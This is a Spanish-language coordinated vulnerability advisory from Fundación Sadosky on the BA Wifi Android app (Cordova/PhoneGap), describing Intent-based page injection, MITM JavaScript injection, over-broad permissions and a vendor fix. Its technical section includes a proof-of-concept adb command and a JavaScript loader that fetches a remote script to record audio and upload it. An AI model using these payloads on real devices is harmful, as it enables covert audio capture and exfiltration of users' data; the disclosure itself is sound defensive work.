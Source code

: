 
# Vulnerabilidades en BA Wifi para Android


## 1. Información del reporte

**Título:** Vulnerabilidades en BA Wifi para Android

**Reporte ID:** STIC-2015-0115

**Reporte URL:** [http://www.fundacionsadosky.org.ar/publicaciones-2](http://www.fundacionsadosky.org.ar/publicaciones-2)

**Fecha de publicación:** 2015-03-01

**Fecha de última actualización:** 2015-11-26

**Fabricantes contactados:** Gobierno de la Ciudad de Buenos Aires

**Modo de publicación:** Coordinado



## 2. Información de vulnerabilidades

**Clase:** Inyección de código [[http://cwe.mitre.org/data/definitions/94.html](http://cwe.mitre.org/data/definitions/94.html)]

**Impacto:** Perdida de datos

**Remotamente explotable:** Si

**Localmente explotable:** Si

**Identificador CVE:** N/A



## 3. Descripción de vulnerabilidad

La aplicación para Android BA Wifi [1]del Gobierno de La Ciudad de Buenos Aires, permite localizar las conexiones Wifi libres del Gobierno de la Ciudad por comunas, por puntos de interés o por ubicación. Según estadística del mercado de aplicaciones Google Play, a febrero de 2015 fue instalada entre 10.000 y 50.000 veces.
    
La aplicación fue desarrollada usando Apache Cordova[2](conocido también como PhoneGap), un framework de código abierto que permite construir aplicaciones para dispositivos móviles a partir de tecnología web standard. El framewok embebe en la aplicación móvil un motor de navegador web (conocido como WebView) adaptado a la características del dispositivo, para que el usuario pueda visualizar el contenido de una aplicación web. Este mecanismo permite a un desarrollador incorporar a dispositivos móviles, rápidamente y con poco esfuerzo de adaptación, aplicaciones web ya existentes o desarrolladas para otras plataformas.
    
El framework utilizado por la aplicación utiliza de WebView customizados para que un usuario pueda visualizar su contenido web. El problema de estas vistas es que para aumentar la usabilidad de la aplicación, se rompe el sandbox de un browser habitual, permitiendo que un script dentro del contenido interactúe con componentes del sistema. El framework de Cordova permite correr código Java embebido a través de interfaces definidas por el mismo. Debido al _target-SDK_de BA WiFi, en dispositivos con versiones anteriores a 4.4.4, Javascript malicioso inyectado puede llegar a correr código nativo arbitrariamente. Debido a que la aplicación posee más permisos de los necesarios (grabar audio y video, capturar fotos, recibir SMS, leer y escribir contactos y en la memoria externa), Javascript malicioso podría a llegar a realizar cualquiera utilizar estas funcionalidades, sin importar la versión de Android del dispositivo.
    
Como la aplicación intenta obtener las direcciones desde la ubicación actual del dispositivo a las de las redes abiertas de forma insegura, es posible inyectar Javascript malicioso por cualquier atacante en la red conectada o que se encuentre en la ruta al servidor.  
    
La configuración utilizada de Apache Cordova/PhoneGap es también insegura. Permite a la aplicación conectarse a cualquier dominio y no solo al dominio donde se encuentra el servidor, esto permite al atacante forzar a la aplicación a acceder a un servidor remoto posiblemente malicioso. La segunda razón, es que expone todos los plugin que permiten acceder a un recurso del celular desde Javascript. La aplicación debería sólo aquellos plugins que son necesitados para su correcto funcionamiento, en este caso geolocalización y acceso a internet. 
    

## 4. Paquetes vulnerables

* Dispositivos corriendo la versión 1.1 o versiones anteriores.

## 5. Información y soluciones del fabricante

El fabricante actualizó la aplicación el 10 de abril de 2015 y la versión 2.0 soluciona los problemas mencionados.
    

## 6. Créditos

Las vulnerabilidades fueron descubiertas e investigadas por Joaquín Rinaudo. La publicación de este reporte fue coordinada por Programa Seguridad en TIC. 

## 7. Descripción técnica

BA Wifi utiliza la versión de PhoneGap 2.3.0 que es vulnerable a CVE-2014-3500 [3]permitiendole a otras aplicaciones cambiar la página de inicio de la aplicación por una con contenido malicioso a través de un Intent que lleve un parámetro extra con referencia al contenido bajo la clave _url_. 
  
La correcta configuración del framework podría llegar a bloquear dicho ataque cuando se restringen los dominios a los cuales la aplicación se puede conectar a través del archivo de configuración _res/xml/config.xml_. Sin embargo, BA Wifi permite a la aplicación acceder a cualquier dominio dado a que para filtrar los accesos utiliza un comodín.
  
Dentro de este archivo de configuración se encuentran también listados los plugins del framework de PhoneGap utilizados. Muchos de estos plugins incluidos en BA Wifi no son necesarios para su funcionamiento. Por ejemplo, _Media_permite reproducir y grabar audio desde Javascript.  _ContactManager_permite el manejo de los contactos del dispositivo y _Capture_permite capturar fotos y videos. Ninguno de estos módulos son  utilizado por BA Wifi pero permitirían que atacantes que lleguen a comprometer la aplicación puedan utilizarlos. Además de incluir estos plugins, la aplicación necesita pedir los permisos necesarios de Android para poder utilizar estos recursos. Sucede que BA Wifi es una aplicación sobreprivilegiada, es decir, requiere más permisos de los que utiliza. Para poder ser instalada, un usuario tiene que permitir el acceso a la aplicación a sus contactos, a la cámara, permitir grabar audio y video, recibir SMS, leer y escribir en la memoria externa además de los permisos que si podrían son utilizados como acceso a su ubicación e internet.  
  
Como prueba de concepto que la aplicación es vulnerable a CVE-2014-3500 se puede enviar el siguiente comando a través de adb (Android Debug Bridge) que simularía ser una aplicación que envía un Intent malicioso que inyecta Javascript utilizando el módulo _Media_[4]logrando capturar audio.
  
```
adb shell am start -n ar.gob.ba.bawifi/.bawifi --es url "https://googledrive.com/host/0B0f57xoYl_BFOG5FMEhpc3AzckU/testing.html"
```

BA Wifi intenta obtener el recorrido a los lugares donde hay redes abierta a partir de la ubicación del dispositivo. Para ello, se envía un pedido HTTP a _http://recorridos.usig.buenosaires.gob.ar/2.0/consultar_recorrido_. Este pedido devuelve un Javascript (originalmente un Callback) que se corre en un contexto de un iframe dentro de la ventana principal de la aplicación. Dado a que el pedido se realiza mediante transporte inseguro, atacantes podrían realizar Man-in-the-Middle e inyectar su propio Javascript. Nuevamente, dado a que Phonegap utiliza interfaces que conectan Java con Javascript, es posible acceder a información privada del usuario a través de estas inyecciones de código. Por ejemplo, el siguiente código inyectado al pedido permite grabar audio y subirlo a un servidor malicioso. Este inyecta al documento del padre con un tag de _script_similar al del ejemplo anterior. 
  
```
    function loadjsfile(filename){

    var xhrObj = new XMLHttpRequest();
    // open and send a synchronous request
    xhrObj.open('GET', filename, false);
    xhrObj.send('');
    // add the returned content to a newly created script tag
    var se = document.createElement('script');
    se.type = "text/javascript";
    se.charset = "UTF-8";
    se.text = xhrObj.responseText;
    alert(xhrObj.responseText);

    parent.document.getElementsByTagName('head')[0].appendChild(se);
 
    }

    loadjsfile("http://yourjavascript.com/1212011542/cordova-record-and-upload.js"); 


```

Por último, inyectar código Javascript permitiría ejecutar código arbitrariamente en dispositivos con versiones corriendo anteriores a la 4.4.4 dado que la aplicación cuenta un _targetSDK_menor a 17 lo permite que se pueda utilizar Java Reflection para acceder a otras clases que no sean la expuesta a través de la interface con _addJavascriptInterface_. A partir de la versión 4.4.4, el motor que implementa Webview bloquea el uso de Java Reflection [5].
  

## 8. Cronología del reporte

* **2015-04-10:** 
          Se publica una actualización que soluciona los problemas mencionados.
        
* **2015-11-26:** 
          Se publica el reporte de seguridad.
        

## 9. Referencias

[1] [https://play.google.com/store/apps/details?id=ar.gob.ba.bawifi](https://play.google.com/store/apps/details?id=ar.gob.ba.bawifi)

[2] [http://cordova.apache.org](http://cordova.apache.org)

[3] [https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3500 ](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3500 )

[4] [http://docs.phonegap.com/en/edge/cordova_media_media.md.html](http://docs.phonegap.com/en/edge/cordova_media_media.md.html)

[5] [https://code.google.com/p/chromium/issues/detail?id=359528 ](https://code.google.com/p/chromium/issues/detail?id=359528 )

## 10. Acerca Fundación Dr. Manuel Sadosky

La Fundación Dr. Manuel Sadosky es una institución público privada cuyo objetivo es favorecer la articulación entre el sistema científico – tecnológico y la estructura productiva en todo lo referido a la temática de las Tecnologías de la Información y la Comunicación (TIC). Creada a través del Decreto Nro. 678/09 del Poder Ejecutivo Nacional, la Fundación es presidida por el ministro de Ciencia, Tecnología e Innovación Productiva. Sus vicepresidentes son los presidentes de las cámaras más importantes del sector TIC: CESSI (Cámara de Empresas de Software y Servicios Informáticos) y CICOMRA (Cámara de Informática y Comunicaciones de la República Argentina). Para más información visitar: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Derechos de autor

El contenido de este reporte tiene copyright (c) 2014 Fundación Sadosky y se publica bajo la licencia Creative Commons Attribution Non-Commercial Share-Alike 4.0: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)
